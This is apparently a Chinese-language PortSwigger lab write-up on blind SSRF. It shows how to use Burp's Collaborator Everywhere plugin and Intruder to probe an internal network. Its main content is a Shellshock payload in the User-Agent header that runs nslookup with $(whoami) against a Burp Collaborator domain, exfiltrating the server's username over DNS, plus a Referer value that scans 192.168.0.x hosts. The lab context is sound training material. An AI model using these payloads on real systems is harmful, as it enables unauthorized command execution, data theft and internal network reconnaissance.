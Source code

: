 发现无法回显的ssrf。获取敏感信息证明危害：



首先安装：Collaborator Everywhere插件



然后将攻击的域名设置到范围中，这样Collaborator Everywhere才能对流量进行修改

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/ssrf/images/EE835930C030423A9EE2E58BA6FCC2F8clipboard.png)



再次抓包：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/ssrf/images/6E5F90AFC5D24CCA9498BE56E00CF1DCclipboard.png)

Collaborator Everywhere已经添加了许多Shellshock paylod



对目标内网进行探测，并获取主机名：

更改user-agent为：

```javascript
 () { :; }; /usr/bin/nslookup $(whoami).t60giu97fmygladioymhxtjyxp3fr4.burpcollaborator.net
```

将域名更改为Burp Collaborator中的域名



更改Referer为：

```javascript
Referer: http://192.168.0.§1§:8080
```



对内网服务进行探测。点击开始攻击。几秒之后机会返回内网机器dns查询，并带上自己的主机名



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/ssrf/images/49B62CFACBB64D8ABB7B0DAD185CCF5Eclipboard.png)



